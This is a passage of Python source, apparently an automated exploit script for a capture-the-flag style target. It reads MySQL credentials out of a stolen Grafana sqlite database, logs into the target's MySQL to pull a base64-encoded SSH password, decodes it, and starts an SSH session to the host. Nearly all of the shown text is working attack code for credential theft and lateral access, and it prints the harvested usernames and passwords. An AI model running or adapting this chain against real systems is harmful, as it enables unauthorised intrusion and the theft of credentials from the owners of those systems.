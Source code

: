 ```python
				self.target_files['grafana_db'] = database_path

		except Exception as error:
			exit('\n[x] Error: %s' % error)

	def get_mysql_cred(self):
		try:
			file_name = self.target_files['grafana_db'].split('/')[-1] # extract only file name

			with sqlite3.connect(file_name) as connection:
				cursor = connection.cursor()

				query = 'SELECT user, password FROM data_source'
				response = cursor.execute(query)

				username, password = response.fetchone()

				self.target_credentials['mysql']['user'] = username
				self.target_credentials['mysql']['pass'] = password

				log.success('Mysql credentials -> {}:{}'.format(username, password)); time.sleep(1)

		except Exception as error:
			exit('\n[x] Error: %s' % error)

	def extract_ssh_cred(self):
		try:
			connection = connector.connect(host=self.target_host['ip_address'],
										   database='whackywidget',
										   user=self.target_credentials['mysql']['user'],
										   password=self.target_credentials['mysql']['pass'])

			if connection.is_connected():
				cursor = connection.cursor()

				query = 'SELECT user, pass from users'
				cursor.execute(query)

				username, b64_password = cursor.fetchone()

				# decode base64 password
				b64_bytes = b64_password.encode('ascii')
				msg_bytes = b64decode(b64_bytes)
				password = msg_bytes.decode('ascii').replace('\n', '')

				self.target_credentials['ssh']['user'] = username
				self.target_credentials['ssh']['pass'] = password

				log.success('SSH credentials -> {}:{}'.format(username, password)); time.sleep(1)

		except Exception as error:
			exit('\n[x] Error: %s' % error)
		finally:
			if connection.is_connected():
				cursor.close()
				connection.close()

	def ssh_connection(self, user, password):
		try:
			ssh_client = SSHClient()
			ssh_client.set_missing_host_key_policy(AutoAddPolicy())
			ssh_client.connect(self.target_host['ip_address'],
							   port=22,
```